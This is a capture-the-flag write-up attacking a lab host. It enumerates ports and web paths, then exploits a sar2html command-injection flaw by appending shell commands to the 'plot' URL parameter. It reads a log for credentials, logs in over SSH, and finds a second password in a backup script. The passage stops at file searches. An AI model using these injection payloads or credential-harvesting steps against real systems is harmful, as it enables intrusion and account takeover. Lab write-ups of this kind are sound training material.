## Scenario

Access via: `10.114.135.176`

> Just enumerate, you'll get there.

## Initial Enumeration

Ran a full TCP port sweep first to see what was open.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.135.176 -p- -T4
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-27 00:41 +0200
Nmap scan report for 10.114.135.176
Host is up (0.035s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
55007/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.21 seconds
```

Four ports came back open. I followed up with a targeted service and script scan on just those.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.135.176 -p21,80,10000,55007 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-27 00:50 +0200
Nmap scan report for 10.114.135.176
Host is up (0.035s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:—REDACTED—
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry
|_/
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.94 seconds
```

This flagged FTP anonymous login as allowed, Apache 2.4.18 on port 80, Webmin (MiniServ 1.930) on port 10000, and SSH on the non-standard port 55007.

## FTP Anonymous Login

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ftp 10.114.135.176 21
Connected to 10.114.135.176.
220 (vsFTPd 3.0.3)
Name (10.114.135.176:—REDACTED—): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43707|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||47827|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
```

A plain `ls` showed nothing. Following up with the `-la` flag revealed the hidden file `.info.txt`, so I grabbed it.

```shell
ftp> get .info.txt
local: .info.txt remote: .info.txt
229 Entering Extended Passive Mode (|||41330|)
150 Opening BINARY mode data connection for .info.txt (74 bytes).
100% |***********************************************************************************************************************************************************************************************|    74      694.86 KiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (2.07 KiB/s)
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat .info.txt
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

This looked like a Caesar cipher, so I ran it through an online ROT13 decoder, which gave:

```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```

Alright, so we're just getting trolled here. 



## Web Enumeration — Port 80

### Webmin Version Check

Port 10000 was running Webmin (MiniServ 1.930), so I checked that version for known vulnerabilities before going further.





That version turned out to be the exact patch release that fixed the famous unauthenticated RCE backdoor found in versions 1.882 through 1.921, so there was nothing to chase there; I moved on.

### robots.txt

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

My guess was that string of numbers was some kind of encoded data, but the path names right above it (`/yellow`, `/not`, `/a+rabbit`, `/hole`) read like another troll, so I did not chase it down immediately; noting it down for only when I have exhausted my options. 

### Directory Brute-Forcing

Instead, I enumerated for subdirectories and files. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ feroxbuster -u 'http://10.114.135.176/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --no-state

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.14.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.114.135.176/
 🚩  In-Scope Url          │ 10.114.135.176
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.14.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://10.114.135.176/icons/ubuntu-logo.png
301      GET        9l       28w      317c http://10.114.135.176/manual => http://10.114.135.176/manual/
200      GET      375l      968w    11321c http://10.114.135.176/
301      GET        9l       28w      320c http://10.114.135.176/manual/fr => http://10.114.135.176/manual/fr/
301      GET        9l       28w      320c http://10.114.135.176/manual/es => http://10.114.135.176/manual/es/
301      GET        9l       28w      320c http://10.114.135.176/manual/tr => http://10.114.135.176/manual/tr/
301      GET        9l       28w      324c http://10.114.135.176/manual/images => http://10.114.135.176/manual/images/
301      GET        9l       28w      320c http://10.114.135.176/manual/en => http://10.114.135.176/manual/en/
200      GET       20l      122w    10334c http://10.114.135.176/manual/images/feather.png
—SNIP—
301      GET        9l       28w      323c http://10.114.135.176/joomla/tests => http://10.114.135.176/joomla/tests/
301      GET        9l       28w      321c http://10.114.135.176/joomla/bin => http://10.114.135.176/joomla/bin/
200      GET        9l       47w      311c http://10.114.135.176/joomla/tests/README.md
301      GET        9l       28w      325c http://10.114.135.176/joomla/plugins => http://10.114.135.176/joomla/plugins/
301      GET        9l       28w      326c http://10.114.135.176/joomla/language => http://10.114.135.176/joomla/language/
301      GET        9l       28w      329c http://10.114.135.176/manual/da/platform => http://10.114.135.176/manual/da/platform/
—SNIP—
```

Most of the hits were the Apache manual pages recursing into themselves, which weren't of interest. Buried in the noise, though, was a `/joomla` path, which was relatively more interesting; I re-ran the scan excluding the manual tree.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ feroxbuster -u 'http://10.114.135.176/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --no-state --dont-scan /manual

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.14.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.114.135.176/
 🚫  Don't Scan Regex      │ /manual
 🚩  In-Scope Url          │ 10.114.135.176
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.14.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://10.114.135.176/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.114.135.176/
301      GET        9l       28w      317c http://10.114.135.176/joomla => http://10.114.135.176/joomla/
301      GET        9l       28w      323c http://10.114.135.176/joomla/media => http://10.114.135.176/joomla/media/
301      GET        9l       28w      325c http://10.114.135.176/joomla/modules => http://10.114.135.176/joomla/modules/
301      GET        9l       28w      323c http://10.114.135.176/joomla/tests => http://10.114.135.176/joomla/tests/
200      GET        9l       47w      311c http://10.114.135.176/joomla/tests/README.md
200      GET       34l      235w     2064c http://10.114.135.176/joomla/tests/codeception/acceptance.suite.dist.yml
200      GET       11l       45w      334c http://10.114.135.176/joomla/tests/codeception/functional.suite.yml
200      GET        9l       20w      162c http://10.114.135.176/joomla/tests/codeception/unit.suite.yml
200      GET        0l        0w        0c http://10.114.135.176/joomla/tests/codeception/_bootstrap.php
200      GET       70l      401w     3071c http://10.114.135.176/joomla/tests/codeception/README.md
200      GET       30l       51w      719c http://10.114.135.176/joomla/tests/codeception/composer.json
301      GET        9l       28w      332c http://10.114.135.176/joomla/plugins/search => http://10.114.135.176/joomla/plugins/search/
301      GET        9l       28w      333c http://10.114.135.176/joomla/plugins/content => http://10.114.135.176/joomla/plugins/content/
200      GET       29l       62w      858c http://10.114.135.176/joomla/tests/javascript/package.json
301      GET        9l       28w      324c http://10.114.135.176/joomla/images => http://10.114.135.176/joomla/images/
301      GET        9l       28w      323c http://10.114.135.176/joomla/cache => http://10.114.135.176/joomla/cache/
301      GET        9l       28w      332c http://10.114.135.176/joomla/plugins/system => http://10.114.135.176/joomla/plugins/system/
301      GET        9l       28w      327c http://10.114.135.176/joomla/libraries => http://10.114.135.176/joomla/libraries/
301      GET        9l       28w      327c http://10.114.135.176/joomla/templates => http://10.114.135.176/joomla/templates/
301      GET        9l       28w      329c http://10.114.135.176/joomla/media/media => http://10.114.135.176/joomla/media/media/
301      GET        9l       28w      333c http://10.114.135.176/joomla/plugins/editors => http://10.114.135.176/joomla/plugins/editors/
301      GET        9l       28w      330c http://10.114.135.176/joomla/installation => http://10.114.135.176/joomla/installation/
301      GET        9l       28w      332c http://10.114.135.176/joomla/media/contacts => http://10.114.135.176/joomla/media/contacts/
301      GET        9l       28w      321c http://10.114.135.176/joomla/bin => http://10.114.135.176/joomla/bin/
301      GET        9l       28w      340c http://10.114.135.176/joomla/plugins/authentication => http://10.114.135.176/joomla/plugins/authentication/
301      GET        9l       28w      325c http://10.114.135.176/joomla/plugins => http://10.114.135.176/joomla/plugins/
200      GET       26l       57w      657c http://10.114.135.176/joomla/tests/codeception/travis-ci-apache.conf
200      GET       61l      166w     1787c http://10.114.135.176/joomla/tests/javascript/test-main.js
200      GET        0l        0w        0c http://10.114.135.176/joomla/tests/unit/bootstrap.php
200      GET     3394l     6201w   120087c http://10.114.135.176/joomla/tests/codeception/composer.lock
301      GET        9l       28w      323c http://10.114.135.176/joomla/build => http://10.114.135.176/joomla/build/
200      GET        0l        0w        0c http://10.114.135.176/joomla/build/generatecss.php
200      GET        0l        0w        0c http://10.114.135.176/joomla/build/helpTOC.php
200      GET        0l        0w        0c http://10.114.135.176/joomla/build/stubGenerator.php
500      GET        3l       16w       97c http://10.114.135.176/joomla/build/build.php
200      GET       31l       43w      500c http://10.114.135.176/joomla/build/jenkins/docker-compose.yml
200      GET       51l      155w     2114c http://10.114.135.176/joomla/build/bootstrap/Makefile
200      GET       31l      193w     1546c http://10.114.135.176/joomla/build/travis/unit-tests.sh
200      GET       26l       93w      675c http://10.114.135.176/joomla/build/jenkins/unit-tests.sh
301      GET        9l       28w      333c http://10.114.135.176/joomla/plugins/privacy => http://10.114.135.176/joomla/plugins/privacy/
301      GET        9l       28w      321c http://10.114.135.176/joomla/tmp => http://10.114.135.176/joomla/tmp/
301      GET        9l       28w      326c http://10.114.135.176/joomla/includes => http://10.114.135.176/joomla/includes/
—SNIP—
301      GET        9l       28w      346c http://10.114.135.176/joomla/libraries/joomla/application => http://10.114.135.176/joomla/libraries/joomla/application/
301      GET        9l       28w      339c http://10.114.135.176/joomla/installation/response => http://10.114.135.176/joomla/installation/response/
301      GET        9l       28w      334c http://10.114.135.176/joomla/libraries/joomla => http://10.114.135.176/joomla/libraries/joomla/
301      GET        9l       28w      332c http://10.114.135.176/joomla/layouts/joomla => http://10.114.135.176/joomla/layouts/joomla/
301      GET        9l       28w      339c http://10.114.135.176/joomla/libraries/joomla/base => http://10.114.135.176/joomla/libraries/joomla/base/
301      GET        9l       28w      335c http://10.114.135.176/joomla/plugins/installer => http://10.114.135.176/joomla/plugins/installer/
301      GET        9l       28w      345c http://10.114.135.176/joomla/libraries/joomla/controller => http://10.114.135.176/joomla/libraries/joomla/controller/
301      GET        9l       28w      339c http://10.114.135.176/joomla/libraries/joomla/grid => http://10.114.135.176/joomla/libraries/joomla/grid/
—SNIP—
```


A standard Joomla installation tree turned up under `/joomla`, mostly default structure. I let it run for a while enumerating further into `/joomla`, but nothing beyond default Joomla files turned up. 

## Joomla Discovery

I browsed to `/joomla` directly.


Then followed the `/joomla/tests` path feroxbuster had already found.



And read the README.md: 



Which didn't really give me anything. 

I kept enumerating for a while after this but couldn't find anything further with the DirBuster wordlist. I therefore endeavoured to try a different one against `/joomla`. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ feroxbuster -u 'http://10.114.135.176/joomla/' -w /usr/share/wordlists/dirb/common.txt --no-state -C 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.14.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.114.135.176/joomla
 🚩  In-Scope Url          │ 10.114.135.176
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.14.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      317c http://10.114.135.176/joomla => http://10.114.135.176/joomla/
301      GET        9l       28w      326c http://10.114.135.176/joomla/_archive => http://10.114.135.176/joomla/_archive/
301      GET        9l       28w      327c http://10.114.135.176/joomla/_database => http://10.114.135.176/joomla/_database/
301      GET        9l       28w      324c http://10.114.135.176/joomla/_files => http://10.114.135.176/joomla/_files/
301      GET        9l       28w      323c http://10.114.135.176/joomla/_test => http://10.114.135.176/joomla/_test/
301      GET        9l       28w      322c http://10.114.135.176/joomla/~www => http://10.114.135.176/joomla/~www/
301      GET        9l       28w      331c http://10.114.135.176/joomla/administrator => http://10.114.135.176/joomla/administrator/
301      GET        9l       28w      321c http://10.114.135.176/joomla/bin => http://10.114.135.176/joomla/bin/
301      GET        9l       28w      323c http://10.114.135.176/joomla/build => http://10.114.135.176/joomla/build/
—SNIP—
```

**Breakdown:**

- `-u 'http://10.114.135.176/joomla/'` narrows the scan to the `/joomla` web root found earlier
- `-w /usr/share/wordlists/dirb/common.txt` swaps in a shorter, differently-compiled wordlist to surface names the first list didn't contain
- `-C 404` filters out responses with HTTP status code 404, so only existing paths show up

`/joomla/_test` immediately stood out—it wasn't in the previous wordlist.

## Finding the sar2html Test Instance

Browsing to `/joomla/_test/` landed on an application called sar2html.



I looked up what sar2html was and found it had a known exploit.





## Exploiting sar2html (RCE)

Following the Exploit-DB description, I injected a command through the vulnerable `plot` parameter:

`http://10.114.135.176/joomla/_test/index.php?plot=;whoami`



This confirmed the injection worked, running as `www-data`. I followed up with a directory listing of the current working directory, using the same technique with a different payload:

`http://10.114.135.176/joomla/_test/index.php?plot=;ls%20-la`



`log.txt` looked worth a look, so I read it the same way:

`http://10.114.135.176/joomla/_test/index.php?plot=;cat+log.txt`



That log line provided us the credentials for an account named `basterd`: `basterd:superduperp@$$`.

## Initial Foothold — SSH as basterd

Tried logging in via SSH with those credentials. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh basterd@10.114.135.176 -p 55007
The authenticity of host '[10.114.135.176]:55007 ([10.114.135.176]:55007)' can't be established.
ED25519 key fingerprint is: SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.114.135.176]:55007' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
basterd@10.114.135.176's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ whoami
basterd
```

That worked straight away. I then upgraded the shell.

```shell
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
basterd@Vulnerable:~$ stty rows 52 cols 236
basterd@Vulnerable:~$
```

First searched what was in the current working directory. 

```shell
basterd@Vulnerable:~$ ls
backup.sh
```

`backup.sh` was the only file there. Checked what it does. 

```shell
basterd@Vulnerable:~$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log

DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
	     echo "Begining copy of" $i  >> $LOG
	     scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
	     echo $i "completed" >> $LOG
		
		if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
		    rm $SOURCE/$i
		    echo $i "removed" >> $LOG
		    echo "####################" >> $LOG
				else
					echo "Copy not complete" >> $LOG
					exit 0
		fi
    done


else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

A commented-out line in the script held a second set of credentials: `stoner:superduperp@$$no1knows`.

I checked for a flag under the current `basterd` access first, though given how the room had gone so far, I didn't expect much to come of it.

```shell
basterd@Vulnerable:~$ find / -name "user.txt" -type f 2>/dev/null
basterd@Vulnerable:~$ find / -name "flag.txt" -type f 2>/dev/null
```

